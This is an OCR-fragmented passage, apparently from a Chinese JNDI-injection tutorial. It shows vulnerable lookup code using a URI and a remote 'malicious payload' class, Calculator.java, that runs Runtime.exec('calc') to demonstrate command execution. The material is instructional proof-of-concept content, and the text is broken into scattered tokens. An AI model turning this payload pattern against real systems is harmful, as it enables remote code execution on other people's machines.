 InitialContext  
  
initialContext  
  
=  
  
new  
  
InitialContext  
();  
  
          
initialContext  
.  
lookup  
(  
uri  
);  
  
      
}            
  
}  
  
Ada  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWvMqo6Rr0K41uUU2lMicE5NdwUjWL7QV7ZmNOTjIOeEjmqDM7jKF8X1J9WuFdC2PU6ibZGnBtwlsZQ/640?wx_fmt=png "")  
  
   
  
   
  
HTTP 端恶意载荷（Calculator.java）代码  
  
我们为了形象地演示出恶意命令被执行的样子，我们这里用弹出计算器来演示。其中windows的把cmd命令改成  
calc  
，如果是linux的话，改成  
gnome-calculator  
就可以了  
  
public  
  
class  
  
Calculator  
 {            
  
      
public  
  
Calculator  
()  
  
throws  
  
Exception  
 {            
  
          
Runtime  
.  
getRuntime  
().  
exec  
(  
"calc"  
);  
  